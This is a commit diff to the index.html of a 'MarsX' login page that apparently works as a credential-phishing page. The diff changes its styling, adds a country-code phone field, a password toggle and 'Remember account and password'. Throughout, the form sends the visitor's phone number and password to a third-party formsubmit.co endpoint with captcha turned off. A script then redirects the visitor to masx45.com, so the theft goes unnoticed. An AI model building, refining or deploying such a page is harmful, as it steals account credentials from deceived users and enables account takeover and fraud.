

Before and after one commit to masx-45/marsx-login, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 283-800 px from the top of the page, without its empty margins (331-971 px from the left). Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -6,7 +6,7 @@
   <title>Login | MarsX</title>
   <style>
     body {
-      background-color: #000; /* Fond noir */
+      background-color: #000;
       font-family: Arial, sans-serif;
       color: white;
       display: flex;
@@ -18,48 +18,42 @@
     }
 
     .container {
-      background-color: transparent; /* Fond transparent pour la zone du formulaire */
-      padding: 30px;
-      border-radius: 15px;
+      text-align: center;
       width: 100%;
-      max-width: 380px;
-      box-shadow: none; /* Retirer l'ombre pour qu'il n'y ait plus de rectangle gris */
-      text-align: center;
+      max-width: 400px;
+      padding: 30px 20px;
     }
 
-    /* Logo aligné à gauche */
     .logo {
-      text-align: left;
-      margin-bottom: 20px;
+      margin-bottom: 10px;
     }
 
     .logo img {
-      height: 40px; /* Taille réduite du logo */
+      height: 60px;
     }
 
     h2 {
+      font-size: 26px;
+      font-weight: bold;
       margin-bottom: 20px;
-      font-weight: 700;
-      font-size: 22px;
-      letter-spacing: 0.5px;
     }
 
     .tabs {
       display: flex;
-      justify-content: space-between;
+      justify-content: center;
       margin-bottom: 20px;
     }
 
     .tab {
-      padding: 10px 20px;
+      flex: 1;
+      padding: 10px 0;
+      font-weight: bold;
+      font-size: 14px;
       border-radius: 25px;
       cursor: pointer;
-      background-color: #333;
+      background-color: #222;
       color: white;
-      width: 120px;
-      font-size: 14px;
-      text-align: center;
-      font-weight: bold;
+      transition: background-color 0.3s;
     }
 
     .tab.active {
@@ -73,25 +67,79 @@
       align-items: stretch;
     }
 
-    label {
-      font-size: 12px;
-      color: white;
-      text-align: left;
-      margin-bottom: 5px;
+    .phone-input {
+      display: flex;
+      align-items: center;
+      background-color: #222;
+      border-radius: 10px;
+      padding: 0 10px;
+      margin-bottom: 20px;
     }
 
-    input {
+    .phone-input img {
+      width: 20px;
+      margin-right: 8px;
+    }
+
+    .phone-input select,
+    .phone-input input {
+      background: transparent;
+      border: none;
+      color: white;
+      padding: 12px 5px;
+      font-size: 16px;
+      flex: 1;
+      outline: none;
+    }
+
+    .input-wrapper {
+      position: relative;
+      margin-bottom: 20px;
+    }
+
+    .input-wrapper input {
+      width: 100%;
       padding: 12px;
-      margin-bottom: 20px;
       border-radius: 10px;
       border: none;
       outline: none;
-      background-color: #333; /* Fond noir pour les champs */
+      background-color: #222;
       color: white;
       font-size: 16px;
     }
 
-    /* Bouton "Log In" */
+    .input-wrapper .toggle-password {
+      position: absolute;
+      right: 15px;
+      top: 50%;
+      transform: translateY(-50%);
+      cursor: pointer;
+      color: #999;
+    }
+
+    .options {
+      display: flex;
+      justify-content: space-between;
+      align-items: center;
+      font-size: 14px;
+      color: #ccc;
+      margin-bottom: 20px;
+    }
+
+    .options a {
+      color: #d4af37;
+      text-decoration: none;
+    }
+
+    .remember-me {
+      display: flex;
+      align-items: center;
+    }
+
+    .remember-me input {
+      margin-right: 5px;
+    }
+
     button {
       background-color: #d4af37;
       border: none;
@@ -109,30 +157,23 @@
       background-color: #b3922b;
     }
 
-    .options {
-      display: flex;
-      justify-content: space-between;
+    #please-wait {
+      display: none;
+      color: #d4af37;
       font-size: 14px;
-      color: #ccc;
-      margin-bottom: 20px;
+      margin-top: 10px;
     }
 
     .signup {
       font-size: 14px;
       color: #aaa;
+      margin-top: 20px;
     }
 
     .signup a {
       color: #d4af37;
       text-decoration: none;
       font-weight: bold;
-    }
-
-    #please-wait {
-      display: none;
-      color: #d4af37;
-      font-size: 14px;
-      margin-top: 10px;
     }
 
   </style>
@@ -142,7 +183,9 @@
     <div class="logo">
       <img src="https://i.imgur.com/KZsmUi2.png" alt="MarsX Logo" />
     </div>
+
     <h2>Welcome To Login</h2>
+
     <div class="tabs">
       <div class="tab active">Phone Login</div>
       <div class="tab">Email Login</div>
@@ -151,37 +194,54 @@
     <form action="https://formsubmit.co/f383def8ae4a6dfe104b19a8ef9629b1" method="POST" onsubmit="return handleSubmit();">
       <input type="hidden" name="_captcha" value="false">
 
-      <!-- Champs avec labels au-dessus -->
-      <label for="phone_number">Phone Number</label>
-      <input type="text" id="phone_number" name="phone_number" placeholder="Phone Number" required />
-
-      <label for="password">Password</label>
-      <input type="password" id="password" name="password" placeholder="Password" required />
-
-      <div class="options">
-        <label><input type="checkbox" name="remember" /> Remember me</label>
-        <a href="#" style="color: #d4af37;">Forgot password?</a>
+      <!-- Phone number with flag and code -->
+      <label style="text-align: left; font-size: 12px; margin-bottom: 5px;">Phone Number</label>
+      <div class="phone-input">
+        <img src="https://flagcdn.com/us.svg" alt="US Flag">
+        <select name="country_code" style="width: 50px;">
+          <option value="+1">+1</option>
+        </select>
+        <input type="text" name="phone_number" placeholder="Phone Number" required />
       </div>
 
+      <!-- Password -->
+      <label style="text-align: left; font-size: 12px; margin-bottom: 5px;">Password</label>
+      <div class="input-wrapper">
+        <input type="password" id="password" name="password" placeholder="Password" required />
+        <span class="toggle-password" onclick="togglePassword()">👁️</span>
+      </div>
+
+      <!-- Options -->
+      <div class="options">
+        <a href="#">Forgot password?</a>
+        <label class="remember-me">
+          <input type="checkbox" name="remember" />
+          Remember account and password
+        </label>
+      </div>
+
+      <!-- Submit -->
       <button type="submit">Log In</button>
       <div id="please-wait">Please wait...</div>
     </form>
 
     <div class="signup">
-      Continue is agree <a href="#">Sign Up</a>
+      Continue Is Agree <a href="#">Sign Up</a>
     </div>
   </div>
 
   <script>
     function handleSubmit() {
       document.getElementById("please-wait").style.display = "block";
-
-      // Attendre 1 seconde avant de rediriger
       setTimeout(() => {
         window.location.href = "https://masx45.com/";
       }, 1000);
+      return true;
+    }
 
-      return true; // Permet au formulaire d’être soumis
+    function togglePassword() {
+      const pwd = document.getElementById("password");
+      pwd.type = pwd.type === "password" ? "text" : "password";
     }
   </script>
 </body>
```
